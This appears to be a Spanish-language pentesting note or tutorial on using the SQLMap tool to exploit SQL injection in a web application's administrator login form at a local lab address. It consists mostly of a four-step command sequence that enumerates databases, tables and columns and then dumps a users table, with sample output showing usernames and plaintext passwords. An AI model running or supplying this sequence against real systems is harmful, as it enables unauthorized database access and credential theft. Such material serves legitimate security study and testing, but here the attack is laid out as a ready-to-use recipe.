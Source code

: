 Herramienta,  que nos permite de forma automatizada realizar una explotación de esta vulnerabilidad y poder acceder a las tablas, columnas y registros de la base de datos objetivo.

Uso para panel de administrador

extraer las bases de datos

```sh fold:"SQLMap descubrir bases de datos"
sqlmap -u http://192.168.1.141/administrator/ --forms --dbs --batch
```
ejemplo de salida:
[*] information_schema                                                                                                  
[*] mysql
[*] performance_schema
[*] Webapp


ahora vamos a conocer las tablas de la base de datos Webapp
```sh fold:"SQLMap descubrir tablas de una BD"
sqlmap -u http://192.168.1.141/administrator/ --forms -D {DB_Name} --tables --batch
```


Ejemplo de salida:
Database: Webapp                                                                                                                                   
[1 table]                                                                                                                                          
+-------+                                                                                                                                          
| Users |
+-------+


Ahora vamos a  sacar las columnas de la tabla Users
```sh fold:"SQLMap descubrir columnas de una tabla"
sqlmap -u http://192.168.1.141/administrator/ --forms -D {DB_Name} -T {Table_name} --columns --batch
```

Ejemplo de salida:
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(6)      |
| password | varchar(32) |
| username | varchar(32) |
+----------+-------------+



Ahora vamos a sacar los registros de las columnas

```sh fold:"SQLMap descubrir registros de una tabla"
sqlmap -u http://192.168.1.141/administrator/ --forms -D {DB_Name} -T {Table_name} -C {column1,column1,column3} --dump --batch
```

ejemplo de salida:
Database: Webapp
Table: Users
[4 entries]
+----------+--------------+
| username | password     |
+----------+--------------+
| bart     | b4rtp0w4     |
| liam     | liam@nd3rs0n |
| mike     | mikeblabla   |
| peter    | peter123!    |
+----------+--------------+





https://www.youtube.com/watch?v=pF7uz_ptuFc

<iframe width="560" height="315" src="https://www.youtube.com/embed/pF7uz_ptuFc?si=6uzvXvY5-_lbZuaL" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>




https://www.youtube.com/shorts/MQLrXU3KzxU